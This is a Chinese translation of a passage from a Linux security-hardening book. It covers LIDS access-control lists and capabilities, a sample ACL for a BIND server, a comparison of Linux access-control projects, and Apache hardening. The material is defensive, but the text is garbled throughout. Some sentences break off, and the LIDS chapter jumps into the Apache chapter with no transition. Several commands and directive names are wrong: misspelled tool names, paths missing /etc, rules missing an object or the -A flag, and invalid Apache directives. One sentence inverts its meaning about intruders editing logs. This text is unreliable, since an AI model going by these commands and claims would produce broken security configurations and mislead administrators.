从 2.0 版本开始，LIDS 将配置和管理分为两个独立的命令。第一个命令 `lidsadm`，我们已经讨论过了；第二个命令叫做 `lidsconf`。`lidsconf` 提供的最重要的命令有：

- `-A,--add`: 添加条目。
- `-C,--check`: 检查现有条目。
- `-D,--delete`: 删除条目。
- `-Z,--zero`: 删除所有条目。
- `-U,--update`: 更新 `/dev` 和 `inode` 编号。
- `-L,--list`: 列出所有条目。

下面的示例显示了 `lidtools` 2.2.5rcl 提供的默认 `ACL`。为了清晰起见已添加行号：

```
# lidsconf -L
Subject ACCESS inherit Object
------------------------------------------------------
1) Any file READONLY: 0           /sbin
2) Any file READONLY: 0           /bin
```

## 访问控制 371

```
3) Any file READONLY: 0 /boot
4) Any file READONLY: 0 /lib
5) Any file READONLY: 0 /usr
6) Any file READONLY: 0 /etc
7) Any file DENY: 0 /etc/lids
8) Any file DENY: 0 /etc/shadow
9) Any file APPEND: 0 /var/log
10) Any file WRITE: 0 /var/log/tmp
11) /bin/login READONLY: 0 /etc/shadow
12) /bin/login GRANT: 0 CAP_SETUID
13) /usr/sbin/sshd GRANT: 0 CAP_NET_ADMIN
14) /bin/login GRANT: 0 CAP_SETGID
```

如果多个规则适用于一个对象，则以最具体的规则胜出。这从第 6、7、8 和第 11 行中看出：第一个 `/etc` 目录被设置为 `READONLY`（只读），然而 `/etc/lids` 和 `/etc/shadow` 随后被设置为不可见（`DENY`）。由于主体是 `Any file`（任何文件），这些规则将适用于任何尝试访问的文件。在第 11 行中，`/etc/shadow` 对 `/bin/login` 设置为 `READONLY`。

在添加条目时，`-A` 选项接受以下参数：

```
lsconf -A [acl-type] [-s subject] -o object [-t from-to] \
[-i level] ACTION
```

如你所见，大多数参数都是可选的；在许多情况下，添加 `ACL` 可以简单如于：

```
lsconf -A -o /etc/hosts.conf -j READ
```


`acl_type`、`subject`、`object`、`inheritance` 和 `ACTION` 之前都提到过；其他可用选项是 `-t from-to`，它允许 `ACL` 在指定时间内有效（例如，在日志滚动脚本执行期间标记）。时间以 `HHMM-NHMM` 的形式指定——前者为开始时间，后者为结束时间。注意，除非采取了进一步的措施（例如将 `/usr/sbin/logrotate` 设置为主体），这将引入一个入侵者可以删除日志的漏洞窗口。删除文件的语法为：

```
lsconf -D [acl-type] [-s subject] [-o object]
```

你可以指定 `subject` 和/或 `object`，所有匹配的规则将被删除。可选地，你还可以指定 `acl-type`（例如 `POSTBOOT`）。

# 能力（Capabilities）

`LIDS` 广泛使用了能力（但注意，如前面提到的，内核应启用能力模块），提供了 `Linux` 提供的所有能力，以及两个新能力：

- `CAP_HIDDEN`: 具有此能力的进程不会列在 `/proc` 中，使 `ps`、`lsof` 和 `top` 等工具不可。

- `CAP_INIT_KILL`: 禁用此能力后，守护进程将不会接收信号。

`CAP_HIDDEN` 并保证进程不可检测：可以通过 `netstat` 的输出、端口扫描器或 `/var/run/SOMETHING.pid` 文件（除非对其设置 `DENY`）推断出守护进程的存在；后者方法允许攻击者获取 `PID`。在 `CAP_INIT_KILL` 的情况下，守护进程被定义为 `init`（其 `PID` 始终为 `1`）。可以使用 `pstree` 命令查看进程列表：

```
# pstree -a
init
| -atd
| -crond
| -httpd
| -httpd
| -eventd
| -hubd
| -journald
| -klogd -x
```

遗憾的是，这是一个缺点。由于不接受任何信号，管理员无法通过 `SIGHUP` 强制守护进程重新加载配置。此外，某些守护进程（如 `Apache`）依赖信号在父进程和子进程之间通信。如果不使用 `CAP_INIT_KILL`，第一个问题可以通过使用 `lidsconf` 解决；对于第二个问题，你需要为那些进程启用 `CAP_INIT_KILL`。

`LIDS` 还对 `CAP_NET_SERVICE` 的工作方式进行了修改。通常这种能力允许进程绑定到特权端口（`1024` 以下），但 `LIDS` 扩展了这一点，允许你指定进程可以绑定的端口或端口范围。例如，对于 `Apache`，与其简单地允许它使用特权端口，不如指定允许 `80` 和 `443` 端口。

# 能力边界集

边界集是系统中可用（但不一定使用）的能力列表：如果能力未在该列表中，则没有进程可以分配。唯一的例外是 `init`，它可以启用被禁用的能力。默认 `LIDS` 配置（`/etc/l`）允许所有能力：

- `CAP_SETCAP`: 为其他进程设置能力的能力。

- `CAP_SYS_MODULE`: 加载和卸载内核模块的能力。

- `CAP_SYS_RAWIO`: 访问 `/dev/mem`、`dev/kmem` 和原始磁盘的能力。拒绝这些的需求在本章之前的 `Grsecurity` 中涵盖过。

- `CAP_PROTECTED`: 杀死受保护进程的能力。

注意 `X` 需要 `CAP_SYS_RAWIO` 能力才能运行：如果你需要 `X`，你需要为 `X` 二进制文件启用此能力。如前所述，能力边界集在内核密封时强制。这允许启动脚本无限制地运行。

# 设置和修改能力

未列在 `LIDS` 边界中的能力无法分配给其他进程——它们似乎不存在。然而，`LIDS` 允许管理员打破这一点并按应用程序授予例外。例如，对于运行 `X` 的机器，我们需要使用 `lidsconf` 工具允许 `X` 二进制文件访问 `CAP_SYS_RAWIO`。注意，这次对象是能力而不是文件或目录，唯一的有效目标是 `GRANT`：

```
lidsconf -A -s /usr/X11/bin/X -o CAP_SYS_RAWIO -j GRANT
```

# 374 Linux 网络安全

通常，你希望从 `LIDS` 边界集中移除尽可能多的能力，尽管为需要它们的应用程序授予例外将意味着额外的工作。

很好的例子是 `CAP_BIND_NET_SERVICE` 能力，它赋予拥有该能力的进程绑定到 `1024` 以下的端口。从边界集中移除此能力应该是相对没有问题的，因为很容易确定哪些应用程序需要授予例外。在向应用程序授予能力时，你可以使用标准语法：

```
lidsconf -A -s /usr/sbin/httpd -o CAP_BIND_NET_SERVICE -j GRANT
```

或者使用 `LIDS` 提供的扩展之一来指定端口范围：

```
lidsconf -A -s /usr/sbin/httpd -o CAP_BIND_NET_SERVICE \
80-80,443-443 -j GRANT
```

由于没有指定单个端口的语法，我们使用零范围，例如 `80-80`。

我们之前提到进程需要 `CAP_INIT_KILL` 与子进程通信，`Apache` 就是一个例子。其语法与其他任何能力相同：

```
lidsconf -A -s /usr/sbin/apache -o CAP_INIT_KILL -j GRANT
```

# 保护系统二进制文件

让我们来看一些从 `LIDS` 保护中受益的常用文件和目录。`/bin`、`/sbin`、`/lib`、`/usr/bin/`、`/usr/lib/` 和 `/usr/sbin` 的内容

可能只在更新软件时进行更改；特别是如果你遵循将所有新软件安装在 `/usr/local` 层次结构的策略。由于绕过这些限制对管理员来说（通过使用 `LFS`）仅仅是微小的不便，因此，你可能还想将 `/usr/local/bin`、`/usr/local/lib` 和 `/usr/local/sbin` 也设为只读（`READONLY`）。这可以防止入侵者用其经过训练的副本替换系统二进制文件。

## /etc 和 /etc/shadow

`/etc` 目录下文件的配置是另一个需要保护的区域。鉴于该目录下文件数量众多，最常见的方法是先将整个目录设置为只读（`READONLY`），然后对单个文件允许写入（`WRITE`）访问——无论是全局还是针对特定主体。`/etc` 中最重要的文件无疑是 `/etc/passwd` 和 `/etc/shadow-`：你可能希望将 `/etc/shadow` 和 `/etc/shadow-` 设置为只读（`READONLY`）。随后会被第二条规则覆盖，允许对该文件进行登录、`SSH` 等读取访问。

遗憾的是，允许用户更改密码的问题仍然存在。显而易见的解决方案是授予 `/usr/bin/passwd` 对 `/etc/shadow` 的写入权限，但解决方案并没有那么简单。当用户使用 `passwd` 更改密码时，它会导致 `/etc/shadow` 被重新创建而不仅仅是修改；这会导致文件的 `inode` 发生变化，并导致任何 `LDDS` 保护失效。它还需要 `passwd` 具有对 `/etc` 目录的写入能力（因为它在在该目录内部创建文件）；如果在 `passwd` 中发现漏洞，这可能允许攻击者访问之前在 `/etc` 中受保护的所有文件。事实上，这个问题没有明确的解决方案：你可能希望使用如 `LDAP` 等替代的身份验证方案来阻止用户更改密码，或者你可能选择不对比 `/etc/shadow` 和 `/etc` 采取写入保护。

如果你觉得这种安排对你的来说来说太复杂，你可能更倾向于采用一种更极简的方法，只保护 `/etc` 目录中的关键文件和目录。其中最重要的是：

- `/etc/rc.d`

- `/etc/init.d`

（注意，这些目录的位置在某些系统上可能会有所不同。）这种保护远非全面，但仍比完全不保护要好。

## 能力 (Capabilities)

至少下以下能力应该通过设置的边界（`/etc/lids/lid.cap`）禁用。你可能想尝试禁用其他能力，但这可能需要你追踪任何合规需要这些能力的应用程序，然后按应用程序启用这些能力。

- `CAP_SYS_RAWIO`：从如 `/dev/hda` 等原始设备读取的能力，这将允许所有访问控制被绕过。

- `CAP_SYS_PTRACE`：跟踪进程所发出的系统调用的能力——我们绝对不希望入侵者这样做。

- `CAP_SETPCAP`：在另一个进程上设置能力的能力。

- `CAP_KILL_PROTECTED`：杀死受保护进程的能力。

- `CAP_SYS_MODULE`：加载和卸载内核模块的能力。

如前所述，受这些限制影响的唯一应用程序是 `X11`。

## 确定所需的访问


位于`http://www.lids.org/lids-faq/lids-faq.html`的`LIDS FAQ`包含了各种应用程序的`ACL`示例，包括登录、`MySQL`、`BIND`、`OpenSSH`和`Apache`。然而，在某个阶段，你无疑需要创建自己的`ACL`，而确定应用程序所需的访问文件和能力将是你的首要任务。再次，`trace`工具被证明有用，它允许你监控应用程序执行的所有系统调用，因此是它尝试访问的所有文件。常识也可以提供帮助：如果应用程序需要绑定到特权端口（如许多网络守护进程那样），它将需要`CAP_BIND_NET_SERVICE`；它是否需要访问读取配置文件或将其写入`/var/run/`？在你部署了`ACL`之后，可以监控`/var/log/messages`以检查违规行为——如有必要——对`ACL`进行调。

## DNS 服务器的示例 LIDS ACL

我们通过查看一个适用于作为 DNS 服务器的机器的`ACL`示例来结束对`LIDS`的讨论。此`ACL`将分为两部分。第一部分是一组通用的规则，实现了基础的访问控制，适用于各种 Linux 系统，例如 DNS 服务器、桌面工作站或具有数百个域名的通用型服务器。第二部分是一组针对`BIND`的特定规则，仔细限制了`named`二进制文件访问的文件和能力。正如之前建议，我们的规则集将以包含一系列`lidsconf`命令的 shell 脚本形式存在。

## 访问控制 377

第一（也是最简单）的一步是将系统二进制文件和库设置为只读（`READONLY`），因为它们很少（合规地）更改。在执行可能更改此类文件的软件更新时，你可以使用`LFS`绕过`ACL`限制。我们将保护的目录是：`/bin`, `/sbin`, `/usr`和`/opt`。

```
/sbin/lidsconf -A -o /bin -j READONLY
/sbin/lidsconf -A -o /sbin -j READONLY
/sbin/lidsconf -A -o /usr -j READONLY
/sbin/lidsconf -A -o /opt -j READONLY
```

注意这些规则没有定义主体，导致它们被应用于系统上的所有进程。请记住，尽管`ACL`是继承的（将`/opt`标记为只读会导致`/opt/man`、`/opt/man1`等变为只读），但这并不跨越文件系统。如果`/usr`是另一个分区，这些规则就不会影响`/etc`，例如，将`/etc`标记为只读会导致

```
/sbin/lidsconf -A -o /networks -j READONLY
/sbin/lidsconf -A -o /ntp.conf -j READONLY
/sbin/lidsconf -A -o /resolv.conf -j READONLY
/sbin/lidsconf -A -o /rc.d -j READONLY
/sbin/lidsconf -A -o /services -j READONLY
/sbin/lidsconf -A -o /shells -j READONLY
/sbin/lidsconf -A -o /ssh -j READONLY
/sbin/lidsconf -A -o /sudoers -j READONLY
/sbin/lidsconf -A -o /sudoers.conf -j READONLY
```

取决于你安装的包，你可能会发现`/etc`中其他值得只读保护的文件。然而，此列表涵盖了最关键的

对`/var/log`设置适当的访问是复杂的。对于大多数文件，我们可以将它们设置为追加（`APPEND`），但`/var/log/wtmp`和`/var/log/lastlog`必须对登录用户可写，并且`halt`二进制

```
/sbin/lidsconf -A -o /var/log -j APPEND
/sbin/lidsconf -A -s /bin/login -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /bin/login -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /bin/init -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /sbin/init -o /var/log/lastlog -j WRITE
/sbin/lidsconf -A -s /sbin/halt -o /var/log/wtmp -j WRITE
/sbin/lidsconf -A -s /sbin/halt -o /var/log/lastlog -j WRITE
```

有了这些访问控制，获得`root`权限的入侵者可以编辑日志文件以隐藏其踪迹。缺点是，`logrotate`工具（定期轮转系统日志工具）将无法运行。虽然可以设置`ACL`允许`logrotate`对`/var/log`执行所需的写入权限，但这可能被入侵者滥用，他们可以多次执行`logrotate`直到包含其踪迹的日志被轮转并最终删除。因此，我们不建议这样做；相反，我们应该禁用`logrotate`，并手动维护日志文件。在大多数系统中，调用`logrotate`的`cron`脚本位于`/etc/cron.daily/logrotate`。删除此文件，或者注释掉其内容。

现在我们将注意力转向专门用于控制`named`二进制文件如何与系统交互的规则，因为我们可以准确预测`named`将访问哪些文件和能力，我们应该能够定义一个

# 访问控制 379

一组严密的规则。我们首先拒绝命名命名主体对整个文件系统的访问：

```
/sbin/lidsconf -A -s /usr/sbin/named -o -j DENY
```

当然，`BIND`将需要能够读取其配置文件`/etc/named.conf`以及存储在`/var/named`中的区域文件：

```
/sbin/lidsconf -A -s /usr/sbin/named -o /etc/named.conf -j READ
/sbin/lidsconf -A -s /usr/sbin/named -o /var/named -j READ
```

```
/sbin/lidsconf -A -s /usr/sbin/named -o /var/run/named -j WRITE
```

这处理了`named`所需的明显文件；但那些不那么明显的文件呢，比如库。如果你读过上一章，你已经知道解决方案是极其实用的`trace`命令，它可以显示进程的系统调用（以及所有对外部文件的访问）。注意，我们使用`-f`选项启动`named`以防止其在后台运行：

```
# strace named -f
```

在允许`trace`运行几小时后，停止进程，并对输出进行`grep`字符串`open`。生成的输出不仅显示了`named`访问的文件，还显示了访问这些文件的模式（例如，读、写等）。此列表可以简化为以下一组`LIDS`规则：


```
/sbin/lidsconf -s /usr/sbin/named -o -j DENY
/sbin/lidsconf -s /usr/sbin/named -o /var/lib -j READ
/sbin/lidsconf -s /usr/sbin/named -o /lib -j READ
/sbin/lidsconf -s /usr/sbin/named -o /var/share/locale -j READ
/sbin/lidsconf -s /usr/sbin/named -o /etc/ld.so.preload -j READ
/sbin/lidsconf -s /usr/sbin/named -o /etc/ld.so.cache -j READ
/sbin/lidsconf -s /usr/sbin/named -o /etc/localtime -j READ
/sbin/lidsconf -s /usr/sbin/named -o /etc/rndc.key -j READ
/sbin/lidsconf -s /usr/sbin/named -o /var/log -j APPEND
/sbin/lidsconf -s /usr/sbin/named -o /dev/random -j READ
```

此列表实际上是某种简化：`named` 在 `/usr/lib` 和 `/lib` 中使用了许多库，但为了简单起见，我们允许访问整个 `/usr/lib` 和 `/lib`。虽然这牺牲了一些安全性，但它让构建正确 `ACL` 的任务变得容易得多，特别是在为许多主体创建规则集时。

我们示例 `ACL` 的最后一部分是设置授予 `named` 进程的权限。因为 `named` 绑定到 `TCP/UDP` 端口 `53`——特权端口——我们需要 `CAP_NET_BIND_SERVICE` 权限：

```
/sbin/lidsconf -s /usr/bin/named -o CAP_NET_BIND_SERVICE 53-53 \
-j GRANT
```

当使用 `-u <username>` 选项启动时，`BIND` 会放弃其 `root` 权限并以无权用户身份运行。为此，它需要执行 `SUID` 和 `SGIDset` 的能力：

```
/sbin/lidsconf -s /usr/bin/named -o CAP_SETUID -j GRANT
/sbin/lidsconf -s /usr/bin/named -o CAP_SETGID -j GRANT
```

如果我们在 `chroot` 环境中运行 `BIND`，还需要 `CAP_SYS_CHROOT` 权限：

```
/sbin/lidsconf -s /usr/bin/named -o CAP_SYS_CHROOT -j GRANT
```

与 `Apache` 一样，`BIND` 通常会预先产生子进程来处理查询，这些进程中的每一个都需要访问我们在这里描述的权限。我们通过 `CAP_SETPCAP` 权限实现这一点，它允许将权限转移到其他进程：

```
/sbin/lidsconf -s /usr/bin/named -o CAP_SETPCAP -j GRANT
```

一旦建立了这些访问控制，现在是时候启动 `named` 二进制文件进行测试，并密切监控系统日志是否有任何表明我们的规则具有限制性的错误。你可能希望通过限制对其他你认为需要保护的关键文件和目录的访问来完善规则集的前半部分，因为我们的示例只涵盖了最关键的文件；记住，在 `LDS` 首页 `http://www.lids.org` 可以找到更多示例 `ACL`。

# 9.4 其他其他访问控制项目

尽管我们花费了一些时间详细介绍 `LIDS` 和 `Grsecurity`，但它们绝不是唯一的两个访问控制项目（尽管它们代表了光谱的两端）。因此，我们结束对 `Linux` 访问控制的讨论，是对其他主要竞争者进行简要回顾，然后是对本章涵盖的一些项目。

### `SELinux`

`Security Enhanced Linux` (`SELinux`) 是美国国家安全局的一个项目，用于强制 `MAC`（使用策略模块的组合）。`SELinux` 最初是一个内核补丁，但其重点已转向发行版。许多发行版已开始整合它。`SELinux` 最大的缺点可能是学习曲线。由于任何系统安全问题都源于不理解它的管理员，在你完全熟悉它的工作方式之前，请不要启用它。

需要为其定义策略，这在多用户系统上是一项耗时的任务。因此，建议（至少对于新用户）将 `SELinux` 部署在执行单一任务并与互联网直接接触的机器上，例如 `DNS`、邮件或 `Web` 服务器。

# 基于规则的访问控制 (`RSBAC`)

`RSBAC` `[RSBAC]`（可在 `http://www.rsbac.org` 获取）是一个提供基于规则集的访问控制的通用框架，它于 `1996` 年作为 `Amon Ott` 的一个大学项目启动。与其他访问控制项目一样，`RSBAC` 旨在增加细粒度，允许任意划分权力。`RSBAC` 对通用访问控制框架 (`GFAC`) 的使用为系统引入了抽象层，允许使用多种替代访问控制方法。支持的方法包括：

- `MAC`：在本章开头已介绍。

- `FC` (功能控制)：一种简单的模型，其中定义了三类规则（普通用户、安全官和系统管理员）以及三种类型（通用、安全和系统）。

- `PM` (隐私模型)：一个相当复杂的模块，可以控制个人数据的处理，符合某些国家存在的隐私法。

- `RC` (角色兼容性)：该模型（定义了 `64` 条规则和 `64` 种类型）提供了快速灵活的访问控制，并允许将管理权限划分到不同的角色中。

- `ACLs`——构成 `Grsecurity` 大部分部分的 `ACL` 在 `RSBAC` 中作为比 `RC` 更强大的替代方案可用。

- `CAP`：权限系统，在本章引言中讨论过。

- `PaX`：可执行文件的内存保护，在第 `8` 章中涵盖。

这些方法并不互斥，`RSBAC` 允许在系统中使用它们的任何组合，从而形成强大且灵活的访问控制系统。

# `DTE`

`DTE` (`http://www.nekonoken.org/`) 是一个 `MAC` 系统，类似于 `SELinux`，将领域分配给进程，将类型分配给文件。领域与领域以及类型与类型之间的交互随后通过一个全局 `DDT` 进行控制。

`DTE` 模型基于 `TE`（转换强制执行），但在两个方面有所改进：提供了一套用于编写策略的高级语言，以及在策略数据库中提供了人类可读的属性。

## 比较技术

鉴于这五种流行的方法，你可能不确定哪种最适合你的系统 `[Fox]`。在本文写作时，`DTE` 的完善程度尚不足以进行大规模部署，因此我们的讨论将集中在 `SELinux`、`Grsecurity`、`LIDS` 和 `RSBAC` 上。

`SELinux` 无疑是最难学习的。理解 `SELinux` 需要对用户、用户组和权限这些基本的 `Unix` 概念进行重新思考；而且用于创建策略文件的语言起初可能令人望而生畏。然而，在克服了这些障碍后，你会发现 `SELinux` 是一种非常强大且实现良好的 `MAC`（强制访问控制）方法。

`LIDS`、`RSBAC` 和 `Grsecurity` 提供 `ACL`（访问控制列表），它们比 `SELinux` 容易学习得多，但功能也没有那么强大。除此，它们还连接了更广泛的安全特性，如端口扫描检测（`LIDS`）、`Pax`（`RSBAC` 和 `Grsecurity`）以及对 `chroot` 的增强（`Grsecurity`），其目标是提供比 `SELinux` 提供的 `MAC` 更完整的解决方案。

## 兼容性

`LSM` 框架的一个缺陷是，它仅设计用于实现访问控制。这对于 `SELinux`（作为 `LSM` 实现）来说没有问题，但对于 `LIDS`、`RSBAC` 或 `Grsecurity` 来说就完全不够灵活，导致这三个项目仍以内核补丁的形式提供——这正是 `LSM` 创建者们希望消除的必要性。正如你所见，`LSM` 事实证明并非万灵妙药。

使用内核补丁时，往往会出现寻找兼容版本的问题。通常，由于对其他补丁的依赖，你已经在使用特定的内核版本，而要找到一个支持所有所需补丁的内核版本可能是很棘手的。在这方面，`LIDS` 显然具有优势，它为 `2.4` 和 `2.6` 系列中的几乎每个内核提供了版本。而 `Grsecurity` 和 `RSBAC` 都仅对 `2.4` 和 `2.6` 系列中的某些近期版本维护补丁。

## 性能

对所涵盖的所有四个项目都进行了广泛的基准测试。尽管这些数据通常应该保留意见，但它们表明所有四个项目的性能开销都相对较低（承认这是一个相当不准确的词）。当然，它们完全不像上一章中某些缓冲区溢出保护方法所看到的剧烈减速。如果你对量化这些开销感兴趣，每个项目的网站都包含基准测试；然而，准确数字并不特别重要：在所有四种情况下，开销都低到可以忽略不计。

## 安全

安全无疑是首要考虑的问题。尽管 `SELinux` 的 `MAC` 实现无疑是最强大的，但这并不是要否定 `Grsecurity`、`LIDS` 和 `RSBAC`：这三者提供的 `ACL` 都是强大的，当使用得当时，可以显著提高系统安全性。可能更重要的不是 `MAC` 系统本身，而是管理员对它的理解和使用：例如，一个配置不当的 `SELinux` 系统可能会轻易花费几个小时来权衡各者的优劣，我们建议选择一个你最初喜欢的，并尝试从内而外地学会它。希望本章能给你一个领先优势。


一个担忧是，所有四个项目都提供了一种让管理员绕过其所提供保护的方法。`LIDS` 在这方面最薄弱，因为它允许拥有管理员密码的用户执行不受 `LIDS` 限制的命令，甚至可以完全关闭 `LIDS` 保护。所有四个项目都可以在启动时通过向内核传递适当的命令来禁用。内核中存在控制这些功能的选项，虽然在测试系统上有用，但在生产服务器上你可能想要完全禁用它们。

## 总结

在本章中，我们研究了使用访问控制作为调节系统上用户和进程行为的手段。这允许你限制网络服务的权限，精确定义它们可以访问哪些文件以及它们可以拥有哪些能力（`capabilities`），这使得利用这些服务变得更加困难。同样的限制也可以应用于用户，限制他们可以访问文件系统的哪些部分、他们运行网络客户端/服务器的能力以及许多其他因素。

目前有多种访问控制方法可用。我们接触了 `LSM` 框架，并看到尽管有些项目在使用它，但对许多其他项目来说它太不灵活了。在上一节中，我们回顾了这里介绍的每种访问控制方法，并对它们进行了相互比较。

## 脚注

- 1. 最近，`XFS`、`JFS` 和 `ReiserFS` 增加了对 `EA` 和 `ACL` 的支持（后者文件系统在 `SuSE` 用户中特别流行）。
- 2. 现已废的 `POSIX.1e` 能力指南可以通过 http://wt.xpixel.org/publications/posix.1e/download.html 获取。
- 3. 该问题在 `Phrack` `p58-0x07` 中深入讨论，在线地址为 http://www.phrack.org/show.php?p=58e-a=7。
- 4. `ftp://ftp.isi.edu/in-notes/rfc1948.txt`

## 参考文献

- `[Coker]` `Russell` `Coker` 的 `SELinux` 站点。在线地址：http://www.coker.com.au/selinux/。
- `[Fox]` `Fox`, `Michael` 等，"SELinux and Grsecurity: 比较 Linux 安全内核增强的案例研究"。在线地址：http://www.cs.virginia.edu/~jcg8/CaseStudy.pdf。
- `[Grsecurity]` `Grsecurity` 首页主页。在线地址：http://www.grsecurity.net。
- `[LIDS]` `LIDS` 首页。在线地址：http://www.lids.org。
- `[LSM]` `LSM` 首页。在线地址：http://www.lsm.org。
- `[RSBAC]` `RSBAC` 首页。在线地址：http://www.rsbac.org。
- `[SELinux]` `SELinux` 首页。在线地址：http://www.nsa.gov/selinux。

## 用户与组

这两个配置文件选项设置了 `Apache` 运行的账户。`Apache` 必须以 `root` 身份启动（以便绑定到 `TCP` 端口 `80`），在此之后，它会放弃权限并以指定的用户和组运行。默认值是 `nobody`，但如果另一个守护进程已经使用了该账户，你应该创建另一个账户，例如 `www`、`www-data` 或 `http`——这限制了受攻击的 `Web` 服务器对系统其他文件的可能影响范围。语法简单如下：

```
User <user>
Group <group>
```

例如：

```
User apache
Group apache
```

如果 `apache` 用户和组 ID 不存在，请使用以下命令创建它们：

```
groupadd apache
useradd apache -c "Apache Server" -d /dev/null -g apache \
-s /sbin/nologin
```

这为用户提供了一个 `/dev/null` 的家目录，并通过将 shell 设置为 `/sbin/nologin` 来防止任何人登录该账户。

## 隐藏版本

当客户端向 `Apache` `Web` 服务器发送 `HEAD` 请求时，服务器响应的标头包含了关于其运行环境的信息。你可以通过 `telnet` 到 `Web` 服务器的 `80` 端口，发出 `HEAD / HTTP/1.0` 命令并两次回车键来手动验证这一点：

```
$ telnet localhost 80
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^'.
HEAD / HTTP/1.0
```

```
HTTP/1.1 200 OK
Date: Wed, 24 Nov 2004 14:38:20 GMT
Server: Apache/1.3.27 (Unix) (Red-Hat/Linux) PHP/4.3.2
Last-Modified: Thu, 18 Nov 2004 00:38:10 GMT
ETag: "c44fb0d-1003-419beef2"
Accept-Ranges: bytes
Content-Length: 4099
Connection: close
Content-Type: text/html
```

`Connection closed by foreign host.`

如果服务器没有使用自定义错误页面，也可以通过浏览器请求不存在的 `URL` 来看到这些信息。隐藏 `Apache` 报告的服务器版本是一种有效（尽管并非万无一失）的方法，可以避免扫描已知漏洞版本的黑客产生不必要的关注。在 `Apache` `2` 中，你的 `Apache` 源码目录下的 `httpd/include/ap_release.h` 文件（你需要从源码安装 `Apache`，而不是二进制包）包含了以下变量：

```
#define AP_SERVER_BASEPRODUCT "Apache"
#define AP_SERVER_MAJORVERSION "2"
#define AP_SERVER_MINORVERSION "0"
#define AP_SERVER_PATCHLEVEL "47"
```

根据你的喜好编辑这些内容并重新编译服务器。

在 `Apache` `1.3.12` 及更高版本中，可以使用位于 `Apache` 配置中的 `ServerTokens` 指令。该指令的四种可能设置以及产生的输出示例如下：

- `ServerTokens ProductOnly`: `Server: Apache.`
- `ServerTokens Minimal`: `Server: Apache/1.3.27.`
- `ServerTokens OS`: `Server: Apache/1.3.27 (Unix).`
- `ServerTokens Full`: `Apache/1.3.27 (Unix) (Red Hat/Linux) PHP/4.3.2.`

如果配置文件中未指定 `ServerTokens` 指令，它默认为 `Full`。我们建议将 `ServerTokens` 设置为 `ProductOnly` 或 `Minimal`。

## 资源限制

以下配置选项都可以（在某种程度上）用于限制针对 `Web` 服务器的潜在 `DoS` 攻击（请注意，方括号中的值表示它是可选的）：

- `MaxClients <number>`: 此项定义定义了 `Apache` 接受的最大并发请求数，用于防止失控进程或 `DoS` 攻击导致整个系统崩溃。默认值为 `150`，我们建议设置在 `100` 到 `200` 之间。如果超过此限制，请求页面的客户端将收到 `Connection Refused` 消息。
- `RLimitCPU <soft> [hard]`: 此指令设置了服务器 `CPU` 使用的限制。值可以是数字（单位为秒）或 `max`。
- `RLimitMEM <soft> [hard]`: 服务器最大内存使用量的软限制和硬限制，单位为字节（`bytes`）。
- `RLimitNProc <soft> [hard]`: 限制服务器可以创建的最大进程数。
- `LimitRequestBody <bytes>`: 允许的客户端的 `HTTP` 请求的最大大小。该值可以是 `0`（无限制）到 `2,147,483,647`（`2 GB`）。如果超过此值，将向客户端返回错误。请记住，如果你在使用允许用户上传文件的 `CGI` 脚本，请求可能有几兆字节。
- `LimitRequestFields <>`: 请求中可能出现的标头字段的最大数量。有效值范围从 `0`（无限制）到 `32,767`。
- `LimitRequestSize <bytes>`: 标头字段大小的上限，单位为字节。有效值范围从 `0`（无限制）到 `8,190`（约 `8 KB`）。
- `LimitRequestLine <n>`: 允许的 `HTTP` 请求行的最大大小。不要设置得太短，因为使用 `GET` 查询方法的 `CGI` 脚本可能会生成长请求行。该值范围从 `0`（无限制）到 `8,190`。

## 访问控制

在第 `7` 章，我们查看了 `HTTP` 的两种替代密码保护方法。为了复习一下，基础认证（`Basic authentication`）是广泛使用的标准方法，但密码是通过易于解码的编码发送的，这意味着密码可以被嗅探。摘要认证（`Digest authentication`）使用 `MD5` 哈希算法，使其安全性大大提高，但在设置时需要额外工作。


尽管基础认证存在缺点，它仍然是 Web 站点密码保护最流行的方法。部分原因是由于它是最老的方法，而且在最近几年之前，浏览器对摘要认证的支持很差。幸运的是，这种情况正在发生变化，大多数现代浏览器（`Internet Explorer` 5.0 以上、`Netscape` 7.0 以上）现在都已支持摘要认证方法，终于使其成为基础认证的有效替代方案。

这些认证形式的语法与之前涵盖的 `Deny` 和 `Allow` 指令完全不同。本质上有四个指令：

### 394 Linux 网络安全

- `AuthName <string>`: 正在保护的领域（realm）。当用户提示输入凭据时（通常通过浏览器显示的弹出窗口），将显示此名称。此字符串也用于唯一标识受保护区域。
- `AuthType <Basic|Digest>`: 使用的身份验证方法。可以是 `Basic`（基础）或 `Digest`（摘要）。
- `AuthFile <file>`: 包含用户名及其关联密码的文件。传统上该文件命名为 `.htpasswd`。
- `Require <valid-user| list of username>`: 用户通过身份验证必须满足的凭据。这可以是一个允许访问的用户列表（当然，前提是他们提供了正确的密码）；也可以是字符串 `valid-users`，在这种情况下，`AuthUserFile` 中列出的所有用户都将获得访问权限。

一个典型的示例如下：

```
<Directory /var/www/htdocs/private>
  AuthName "Employee Timetables"
  AuthType Basic
  AuthFile /var/www/.htpasswd
  Require valid-user
</Directory>
```

鉴于 `.htpasswd` 文件的敏感性，将其存储在文档根目录之外（如前面的示例）是一个好主意，可以防止用户在 Web 浏览器中查看它。这过去是一个非常常见的漏洞，因此 `Apache` 的默认配置文件现在包含了以下指令，禁止任何以 `.ht` 开头的文件被访问：

```
<Files "*.ht">
  Order allow, deny
  Deny from all
  Satisfy All
</Files>
```

然而，你可能仍然想将密码文件保留在文档根目录之外。`Windows` 用户在处理以点开头的文件时会遇到问题，并在本地系统上编辑 `.htpasswd` 时倾向于重命名它。这可能会意外导致 `.htpasswd` 出现在文档根目录中，而它将无法受到上述指令的保护（因为它缺少开头的点）。

### 服务加固 395

### 基础身份验证密码

现在你已经了解了实现基础身份验证所需的 `Apache` 配置指令，我们只需要围绕 `.htpasswd` 文件的细节信息。虽然你可以使用系统的 `.passwd` 文件作为身份验证手段（允许用户使用与 `Unix` 登录密码相同的密码访问网站的受保护区域），但如果网站密码被发现（例如通过嗅探），网站的安全性就会受到损害。相反，你应该维护一个独立的 `.htpasswd` 文件，并告诫用户使用与其登录密码不同的密码。

使用 `htpasswd` 工具向 `.htpasswd` 添加条目的语法如下。当你第一次添加条目时，你（理所当然）需要创建该文件；这是通过使用 `-c` 选项加上所需的文件名来实现。名称可以是任何你喜欢的，但基于 `.htpasswd` 的命名是传统的。

```
# htpasswd -c /var/www/.htpasswd.area1 jill
```

